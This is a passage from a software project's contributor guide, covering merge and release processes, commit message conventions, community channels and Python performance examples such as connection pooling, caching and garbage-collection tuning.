   - Backward compatibility

### **Merge Requirements**

- All CI checks passing
- Required approvals received
- No unresolved comments
- Branch up to date with master
- Commits squashed if requested
- CHANGELOG.md updated

### **Post-Merge**

1. **Monitor deployment**
   - Check deployment status
   - Monitor error rates
   - Verify performance metrics

2. **Update documentation**
   - Update public docs if needed
   - Announce breaking changes
   - Update migration guides

3. **Close related issues**
   - Ensure linked issues are closed
   - Update project boards
   - Notify stakeholders

## 👥 **Community Guidelines**

### **Code of Conduct**

We are committed to providing a welcoming and inclusive environment. All contributors must follow our [Code of Conduct](./CODE_OF_CONDUCT.md).

### **Communication Channels**

- **GitHub Discussions**: Technical discussions and questions
- **Discord**: Real-time chat and support
- **GitHub Issues**: Bug reports and feature requests
- **Email**: security@claude-deployment.dev (security issues only)

### **Getting Help**

1. **Check Documentation**
   - [README.md](./README.md) for overview
   - [ai_docs/](./ai_docs/) for detailed guides
   - [api_docs/](./api_docs/) for API reference

2. **Search Existing Issues**
   - Check if your question is already answered
   - Look for similar problems and solutions

3. **Ask in Discussions**
   - Use GitHub Discussions for questions
   - Provide context and examples
   - Be patient and respectful

### **Recognition**

We value all contributions:

- **Contributors**: Listed in [CONTRIBUTORS.md](./CONTRIBUTORS.md)
- **Monthly recognition**: Top contributors highlighted
- **Conference speaking**: Opportunities for active contributors
- **Swag**: T-shirts and stickers for significant contributions

### **Becoming a Maintainer**

Active contributors can become maintainers:

1. **Consistent contributions** (6+ months)
2. **High-quality code and reviews**
3. **Helpful in community discussions**
4. **Domain expertise in specific areas**
5. **Commitment to project values**

## 📝 **Commit Message Standards**

### **Format**
```
<type>(<scope>): <subject>

<body>

<footer>
```

### **Types**
- `feat`: New feature
- `fix`: Bug fix
- `perf`: Performance improvement
- `docs`: Documentation only
- `style`: Code style changes
- `refactor`: Code refactoring
- `test`: Test additions/changes
- `chore`: Build/maintenance tasks
- `security`: Security improvements
- `revert`: Revert previous commit

### **Examples**
```bash
# Feature
feat(auth): add OAuth2 authentication support

- Implement OAuth2 flow with Google and GitHub
- Add token refresh mechanism
- Include comprehensive test coverage

Closes #234

# Bug fix
fix(api): resolve memory leak in connection pool

- Fix connection cleanup in error scenarios
- Add finalizer for proper resource disposal
- Reduce memory usage by 40% under load

Fixes #567

# Performance
perf(db): optimize query performance with indexes

- Add composite index on (user_id, created_at)
- Implement query result caching
- Reduce P95 latency from 150ms to 15ms

Benchmark: 10x improvement in throughput
```

### **Best Practices**
- Keep subject line under 50 characters
- Use imperative mood ("add" not "added")
- Capitalize first letter of subject
- No period at end of subject
- Separate subject and body with blank line
- Wrap body at 72 characters
- Explain what and why, not how

#### **Object Pooling**
```python
# Use object pools for frequently created objects
from src.core.object_pool import ObjectPool

# Good: Reuse expensive objects
class ConnectionManager:
    def __init__(self):
        self.pool = ObjectPool(
            creator=self._create_connection,
            max_size=100,
            pre_create=10
        )
    
    async def execute(self, query: str):
        async with self.pool.acquire() as conn:
            return await conn.execute(query)
```

#### **Connection Management**
```python
# Implement connection pooling with proper limits
from src.core.connections import ConnectionPool

# Configure connection pools with appropriate settings
connection_pool = ConnectionPool(
    min_size=10,
    max_size=100,
    max_idle_time=300,  # 5 minutes
    connection_timeout=5.0,
    retry_policy=ExponentialBackoff(max_retries=3)
)

# Always use context managers for connections
async with connection_pool.acquire() as conn:
    await conn.execute(query)
```

#### **Memory Optimization**
```python
# Use lazy imports for large modules
from src.core.lazy_imports import lazy_import

# Bad: Import everything at module level
import tensorflow as tf

# Good: Lazy import for memory efficiency
tf = lazy_import('tensorflow')

# Use streaming for large data processing
from src.core.stream_processor import StreamProcessor

async def process_large_file(filepath: Path):
    processor = StreamProcessor(chunk_size=1024 * 1024)  # 1MB chunks
    async for chunk in processor.process_file(filepath):
        await handle_chunk(chunk)
```

#### **Caching Strategies**
```python
# Implement multi-tier caching
from src.core.lru_cache import LRUCache
from src.core.cache_config import CacheConfig

# Configure appropriate cache sizes
cache_config = CacheConfig(
    memory_cache_size=1000,
    memory_cache_ttl=300,  # 5 minutes
    redis_cache_ttl=3600,  # 1 hour
    enable_compression=True
)

# Use cache decorators for expensive operations
@lru_cache(maxsize=1000, ttl=300)
async def get_user_permissions(user_id: str) -> List[str]:
    return await db.fetch_permissions(user_id)
```

#### **Garbage Collection Optimization**
```python
# Configure GC for high-performance scenarios
from src.core.gc_optimization import optimize_gc

# Apply GC optimization at startup
optimize_gc(
    gen0_threshold=700,
    gen1_threshold=10,
    gen2_threshold=10,
    disable_during_critical=True
)

# Use context managers for GC control
from src.core.gc_optimization import gc_disabled

async def critical_operation():
    async with gc_disabled():
        # Perform time-sensitive operations
        await process_realtime_data()
```

### **Performance Testing**

```python
# Performance benchmarks
@pytest.mark.benchmark
def test_api_performance(benchmark):
    result = benchmark(api_call, {"param": "value"})
    assert result.status == "success"

# Load testing
def test_concurrent_deployments():
    with ThreadPoolExecutor(max_workers=50) as executor:
        futures = [
            executor.submit(deploy_service, f"service-{i}")
            for i in range(100)
        ]
        results = [f.result(timeout=30) for f in futures]
    
    success_rate = sum(1 for r in results if r.success) / len(results)
    assert success_rate >= 0.95  # 95% success rate target

# Memory leak detection
@pytest.mark.memory
def test_no_memory_leaks():
    import tracemalloc
    tracemalloc.start()
    
    # Run operation multiple times
    for _ in range(1000):
        process_request()
    
    current, peak = tracemalloc.get_traced_memory()
    tracemalloc.stop()
    
    # Memory should not grow significantly
    assert current < 100 * 1024 * 1024  # Less than 100MB

# Connection pool testing
@pytest.mark.asyncio
async def test_connection_pool_limits():
    pool = ConnectionPool(max_size=10)
    
    # Acquire all connections
    connections = []
    for _ in range(10):
        connections.append(await pool.acquire())
    
    # Next acquire should timeout
    with pytest.raises(TimeoutError):
        await asyncio.wait_for(pool.acquire(), timeout=1.0)
    
    # Release and verify reuse
    for conn in connections:
        await pool.release(conn)
```

### **Performance Monitoring**

```python
# Add performance metrics to critical paths
from src.monitoring.metrics import performance_histogram

@performance_histogram('api_request_duration')
async def handle_request(request):
    # Your code here
    pass

# Monitor resource usage
from src.monitoring.memory_monitor import MemoryMonitor

monitor = MemoryMonitor(
    warning_threshold=0.8,  # 80% of limit
    critical_threshold=0.9,  # 90% of limit
    check_interval=60  # Check every minute
)
```

## 🚀 **Release Process**

### **Version Management**

```bash
# Follow semantic versioning (MAJOR.MINOR.PATCH)
# - MAJOR: Breaking changes
# - MINOR: New features (backward compatible)
# - PATCH: Bug fixes (backward compatible)

# Update version
./scripts/update_version.py --type minor
git commit -m "chore: bump version to 1.2.0"
git tag v1.2.0
```

### **Release Checklist**

- [ ] All tests passing on main branch
- [ ] Documentation updated
- [ ] CHANGELOG.md updated
- [ ] Security scan completed
- [ ] Performance benchmarks meet targets
- [ ] Breaking changes documented
- [ ] Migration guide provided (if needed)

## 📞 **Getting Help**

### **Development Support**

- **GitHub Discussions**: Ask questions and get help
- **Discord Community**: Real-time chat with maintainers
- **Mentorship Program**: Pair with experienced contributors
- **Office Hours**: Weekly Q&A sessions with maintainers

### **Contribution Types Welcome**

- 🐛 **Bug fixes**: Always appreciated
- ✨ **Features**: Discuss in issues first
- 📖 **Documentation**: Especially examples and tutorials
- 🧪 **Tests**: Improve coverage and quality
- 🔧 **Tooling**: Development and CI/CD improvements
- 🌐 **Translations**: Help make CODE globally accessible
- 🎨 **UI/UX**: Improve dashboards and interfaces

## 🏆 **Recognition**

### **Contributor Recognition**

- **Contributors list** in README.md
- **Hall of Fame** for major contributions
- **Special badges** for different contribution types
- **Conference speaking** opportunities
- **Swag and merchandise** for active contributors

### **Maintainer Path**

Interested in becoming a maintainer?

1. **Consistent contributions** over 6+ months
2. **High-quality code** and reviews
3. **Community involvement** in discussions and support
4. **Domain expertise** in specific areas
5. **Mentorship** of new contributors


## 🎯 **Quick Start Checklist**

### **For First-Time Contributors**

1. [ ] Fork and clone the repository
2. [ ] Set up development environment
3. [ ] Run tests to verify setup
4. [ ] Find a "good first issue"
5. [ ] Create feature branch
6. [ ] Make changes with tests
7. [ ] Run quality checks
8. [ ] Submit pull request
9. [ ] Respond to feedback
10. [ ] Celebrate your contribution! 🎉

### **For Bug Fixes**

1. [ ] Reproduce the bug
2. [ ] Write failing test
3. [ ] Fix the bug
4. [ ] Verify test passes
5. [ ] Check for regressions
6. [ ] Submit PR with fix

### **For New Features**

1. [ ] Discuss in GitHub Discussions
2. [ ] Get consensus on approach
3. [ ] Write design document
4. [ ] Implement with TDD
5. [ ] Add documentation
6. [ ] Submit PR for review

## 🎯 **Contributing to Core Components**

### **Circle of Experts System**
When contributing to the Circle of Experts:
- Understand the consensus algorithms in `src/circle_of_experts/`
- Follow the expert interface in `src/circle_of_experts/experts/`
- Add tests for new expert implementations
- Document consensus logic changes
- Performance test with multiple experts

### **MCP Server Development**
For MCP server contributions:
- Follow MCP protocol specifications
- Implement proper error handling and retries
- Add comprehensive tool documentation
- Include integration tests
- Ensure backward compatibility
- Test with various MCP clients

### **Rust Core Components**
For Rust contributions:
- Follow Rust idioms and best practices
- Ensure memory safety
- Add benchmarks for performance-critical code
- Update FFI bindings if needed
- Test Python-Rust integration

## 📚 **Additional Resources**

- [Architecture Overview](./ai_docs/00_AI_DOCS_INDEX.md)
- [API Documentation](./api_docs/index.rst)
- [Performance Optimization Guide](./ai_docs/02_PERFORMANCE_OPTIMIZATION_PATTERNS.md)
- [Security Best Practices](./SECURITY.md)
- [Deployment Guide](./k8s/README.md)
- [MCP Integration Guide](./ai_docs/implementation/mcp_server_integration_strategy.md)
- [Circle of Experts Design](./src/circle_of_experts/README.md)

## 🤝 **Need Help?**

- **Documentation**: Check our comprehensive guides
- **GitHub Discussions**: Ask questions and share ideas
- **Discord**: Join our community for real-time help
- **Security Issues**: Email security@claude-deployment.dev
- **Commercial Support**: Available for enterprise users

## 🏅 **Acknowledgments**

We appreciate all contributions, big and small. Every contribution helps make CODE better!

Special thanks to:
- All our contributors
- The open source community
- Our sponsors and supporters

---

**Thank you for contributing to CODE!** Your efforts help make deployment automation better for everyone.

*Contributing guide version: 2.0*  
*Last updated: January 2025*